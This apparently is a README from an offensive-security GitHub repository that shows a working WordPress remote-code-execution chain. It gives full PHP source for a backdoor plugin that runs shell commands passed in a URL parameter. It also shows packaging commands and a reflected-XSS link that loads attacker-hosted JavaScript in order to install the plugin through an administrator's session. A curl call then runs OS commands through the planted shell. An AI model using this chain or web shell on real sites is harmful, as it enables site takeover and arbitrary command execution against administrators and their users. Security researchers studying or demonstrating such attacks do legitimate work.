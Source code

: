 # [RCE] Install Plugin

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps
1. [create backdoored CMS module] backdoor source code

    * **NOTE**: update/customize PHP backdoor in `WP_PoC.php`

    (`WP_PoC.php`)

    ```
    <?php
    /**
     * Plugin Name: WP RCE PoC - Install Plugin
     * Version: 1.0.0
     * Author: WP Admin
     * Author URI: https://localhost
     * License: GPL2
     */
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    ?>
    ```

2. [create backdoored CMS module] create WordPress plugin

    ```
    zip WP_PoC.zip WP_PoC.php
    ```

3. [create backdoored CMS module] base64-encode generated plugin file (**NOTE**: avoids encoding issues)

    ```
    cat WP_PoC.zip | base64 -w0 > WP_PoC.txt
    ```

4. [setup exploit] change payload variable values (`installPluginWP.js`)

    `pluginURL` - URL of WordPress plugin (containing backdoor) to be installed on target site

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/wordpress"`)

5. [setup exploit] setup web server (to serve the payload/plugin)

6. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

7. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/rxss.php?q=<script src=http://192.168.5.5/installPluginWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.5` - web server hosting the payload

8. [post exploit] execute OS command

    ```
    curl -s "http://192.168.5.10/wp-content/plugins/WP_PoC/WP_PoC.php?pass=test&cmd=id" | head -n 1
    ```

    * **NOTE**: module URL constructed based on name of installed module

9. [uninstall module] uninstall module via GUI

    *WordPress ➔ Plugins ➔ Installed Plugins ➔ [WP RCE PoC - Install Plugin] Delete ➔ OK*

## Screenshot

* **NOTE**: the screenshot covers steps 1 to 8 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/InstallPlugin/screenshots/WordPress_-_install_plugin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/InstallPlugin/screenshots/WordPress_-_install_plugin_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/e2a5fa16-2636-43f0-9761-f1c22b479263
